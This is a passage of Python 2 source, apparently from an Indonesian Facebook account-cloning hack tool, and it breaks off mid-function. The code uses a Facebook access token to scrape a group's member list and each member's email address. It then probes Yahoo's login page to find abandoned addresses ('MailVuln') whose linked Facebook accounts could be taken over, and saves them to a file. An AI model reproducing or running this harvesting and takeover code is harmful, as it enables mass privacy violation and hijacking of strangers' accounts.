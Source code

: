  print 42*"\033[1;96m="
 print '\033[1;96m[\033[1;97m✓\033[1;96m] \033[1;92mSelesai \033[1;97m....'
 print"\033[1;96m[+] \033[1;92mTotal \033[1;91m: \033[1;97m"+str(len(berhasil))
 print"\033[1;96m[+] \033[1;92mFile tersimpan \033[1;91m:\033[1;97m out/TemanMailVuln.txt"
 save.close()
 raw_input("\n\033[1;96m[\033[1;97mKembali\033[1;96m]")
 menu()
 
def clone_dari_member_group():
 global toket
 os.system('clear')
 try:
 toket=open('login.txt','r').read()
 except IOError:
 print"\033[1;96m[!] \x1b[1;91mToken invalid"
 os.system('rm -rf login.txt')
 time.sleep(1)
 login()
 try:
 os.mkdir('out')
 except OSError:
 pass
 os.system('clear')
 print logo
 mpsh = []
 jml = 0
 print 42*"\033[1;96m="
 id=raw_input('\033[1;96m[+] \033[1;93mMasukan ID group \033[1;91m:\033[1;97m ')
 try:
 r=requests.get('https://graph.facebook.com/group/?id='+id+'&access_token='+toket)
 asw=json.loads(r.text)
 print"\033[1;96m[\033[1;97m✓\033[1;96m] \033[1;93mNama group \033[1;91m:\033[1;97m "+asw['name']
 except KeyError:
 print"\033[1;96m[!] \x1b[1;91mGroup tidak ditemukan"
 raw_input("\n\033[1;96m[\033[1;97mKembali\033[1;96m]")
 menu()
 jalan('\033[1;96m[✺] \033[1;93mMengambil email \033[1;97m...')
 teman = requests.get('https://graph.facebook.com/'+id+'/members?fields=name,id&limit=999999999&access_token='+toket)
 kimak = json.loads(teman.text)
 save = open('out/GrupMailVuln.txt','w')
 jalan('\033[1;96m[✺] \033[1;93mStart \033[1;97m...')
 print('\x1b[1;96m[!] \x1b[1;93mStop CTRL+z')
 print 42*"\033[1;96m="
 for w in kimak['data']:
 jml +=1
 mpsh.append(jml)
 id = w['id']
 nama = w['name']
 links = requests.get("https://graph.facebook.com/"+id+"?access_token="+toket)
 z = json.loads(links.text)
 try:
 mail = z['email']
 yahoo = re.compile(r'@.*')
 otw = yahoo.search(mail).group()
 if 'yahoo.com' in otw:
 br.open("https://login.yahoo.com/config/login?.src=fpctx&.intl=id&.lang=id-ID&.done=https://id.yahoo.com")
 br._factory.is_html = True
 br.select_form(nr=0)
 br["username"] = mail
 klik = br.submit().read()
 jok = re.compile(r'"messages.ERROR_INVALID_USERNAME">.*')
 try: